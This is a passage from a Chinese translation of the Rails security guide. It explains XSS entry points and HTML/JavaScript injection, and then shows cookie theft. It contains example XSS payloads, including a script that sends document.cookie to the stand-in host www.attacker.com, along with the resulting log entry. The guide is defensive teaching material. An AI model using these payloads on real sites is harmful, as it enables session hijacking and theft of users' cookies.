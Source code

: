 TIP: 对 Web 应用而言，XSS 是影响范围最广、破坏性最大的安全漏洞。这种恶意攻击方式会在客户端注入可执行代码。Rails 提供了防御这种攻击的辅助方法。

<a class="anchor" id="entry-points"></a>

#### 切入点

存在安全风险的 URL 及其参数，是攻击者发动攻击的切入点。

最常见的切入点包括帖子、用户评论和留言本，但项目名称、文档名称和搜索结果同样存在安全风险，实际上凡是用户能够输入信息的地方都存在安全风险。而且，输入不仅来自网站上的输入框，也可能来自 URL 参数（公开参数、隐藏参数或内部参数）。记住，用户有可能拦截任何通信。有些工具和客户端代理可以轻易修改请求数据。此外还有横幅广告等攻击方式。

XSS 攻击的工作原理是：攻击者注入代码，Web 应用保存并在页面中显示这些代码，受害者访问包含恶意代码的页面。本文给出的 XSS 示例大多数只是显示一个警告框，但 XSS 的威力实际上要大得多。XSS 可以窃取 cookie、劫持会话、把受害者重定向到假冒网站、植入攻击者的赚钱广告、纂改网站元素以窃取登录用户名和密码，以及通过 Web 浏览器的安全漏洞安装恶意软件。

仅 2007 年下半年，在 Mozilla 浏览器中就发现了 88 个安全漏洞，Safari 浏览器 22 个， IE 浏览器 18个， Opera 浏览器 12个。[赛门铁克《互联网安全威胁报告》](http://eval.symantec.com/mktginfo/enterprise/white_papers/b-whitepaper_internet_security_threat_report_xiii_04-2008.en-us.pdf)指出，仅 2007 年下半年，在浏览器插件中就发现了 239 个安全漏洞。[Mpack](http://pandalabs.pandasecurity.com/mpack-uncovered/) 这个攻击框架非常活跃、经常更新，其作用是利用这些漏洞发起攻击。对于那些从事网络犯罪的黑客而言，利用 Web 应用框架中的 SQL 注入漏洞，在数据表的每个文本字段中插入恶意代码是非常有吸引力的。2008 年 4 月，超过 51 万个网站遭到了这类攻击，其中包括英国政府、联合国和其他一些重要网站。

<a class="anchor" id="html-javascript-injection"></a>

#### HTML / JavaScript 注入

XSS 最常用的语言非 JavaScript （最受欢迎的客户端脚本语言）莫属，并且经常与 HTML 结合使用。因此，对用户输入进行转义是必不可少的安全措施。

让我们看一个 XSS 的例子：

```html
<script>alert('Hello');</script>
```

这行 JavaScript 代码仅仅显示一个警告框。下面的例子作用完全相同，只不过其用法不太常见：

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

<a class="anchor" id="cookie-theft"></a>

##### 窃取 cookie

到目前为止，本文给出的几个例子都不会造成实际危害，接下来，我们要看看攻击者如何窃取用户的 cookie（进而劫持用户会话）。在 JavaScript 中，可以使用 `document.cookie` 属性来读写文档的 cookie。JavaScript 遵循同源原则，这意味着一个域名上的脚本无法访问另一个域名上的 cookie。`document.cookie` 属性中保存的是相同域名 Web 服务器上的 cookie，但只要把代码直接嵌入 HTML 文档（就像 XSS 所做的那样），就可以读写这个属性了。把下面的代码注入自己的 Web 应用的任何页面，我们就可以看到自己的 cookie：

```html
<script>document.write(document.cookie);</script>
```

当然，这样的做法对攻击者来说并没有意义，因为这只会让受害者看到自己的 cookie。在接下来的例子中，我们会尝试从 http://www.attacker.com/ 这个 URL 地址加载图像和 cookie。当然，因为这个 URL 地址并不存在，所以浏览器什么也不会显示。但攻击者能够通过这种方式，查看 Web 服务器的访问日志文件，从而看到受害者的 cookie。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com 的日志文件中将出现类似这样的一条记录：

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```
